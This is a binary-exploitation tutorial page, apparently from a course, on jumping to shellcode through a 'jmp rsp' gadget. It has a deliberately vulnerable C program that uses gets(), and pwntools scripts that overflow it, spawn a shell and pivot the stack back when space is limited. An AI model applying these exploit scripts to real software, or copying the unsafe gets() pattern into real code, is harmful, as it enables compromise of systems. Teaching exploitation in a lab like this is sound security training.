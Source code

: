 # Using RSP

## Source

{% file src="../../../.gitbook/assets/rsp\_shellcode.zip" caption="Shellcode with RSP" %}

```c
#include <stdio.h>

int test = 0;

int main() {
    char input[100];

    puts("Get me with shellcode and RSP!");
    gets(input);

    if(test) {
        asm("jmp *%rsp");
        return 0;
    }
    else {
        return 0;
    }
}
```

You can ignore most of it as it's mostly there to accomodate the existence of `jmp rsp` - we don't actually want it called, so there's a negative `if` statement.

{% hint style="info" %}
The chance of `jmp esp` gadgets existing in the binary are incredible low, but what you often do instead is find a _sequence of bytes that code for jmp rsp_ and jump there - `jmp rsp` is `\xff\xe4` in shellcode, so if there's is any part of the executable section with bytes in this order, they can be used as if they are a `jmp rsp`.
{% endhint %}

## Exploitation

Try to do this yourself first, using the explanation on the previous page. Remember, RSP points at the thing _after_ the return pointer once `ret` has occured, so your shellcode goes _after_ it.

### Solution

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

# we use elf.search() because we don't need those instructions directly,
# just anu sequence of \xff\xe4
jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = flat(
    'A' * 120,                # padding
    jmp_rsp,                 # RSP will be pointing to shellcode, so we jump there
    asm(shellcraft.sh())     # place the shellcode
)

p.sendlineafter('RSP!\n', payload)
p.interactive()
```

## Limited Space

You won't always have enough overflow - perhaps you'll only have 7 or 8 bytes. What you can do in this scenario is make the shellcode after the RIP equivalent to something like

```text
sub rsp, 0x20
jmp rsp
```

Where `0x20` is the offset between the current value of RSP and the start of the buffer. In the buffer itself, we put the main shellcode. Let's try that!

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
    sub rsp, 10;
    jmp rsp;
''')

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```

The `10` is just a placeholder. Once we hit the `pause()`, we attach with radare2 and set a breakpoint on the `ret`, then continue. Once we hit it, we find the beginning of the `A` string and work out the offset between that and the current value of RSP - it's `128`!

### Solution

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = asm(shellcraft.sh())
payload = payload.ljust(120, b'A')
payload += p64(jmp_rsp)
payload += asm('''
    sub rsp, 128;
    jmp rsp;
''')        # 128 we found with r2

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```

We successfully pivoted back to our shellcode - and because all our addresses are relative, it's completely reliable! ASLR beaten with pure shellcode.

{% hint style="warning" %}
This is harder with PIE as the location of `jmp rsp` will change, so you might have to leak PIE base!
{% endhint %}

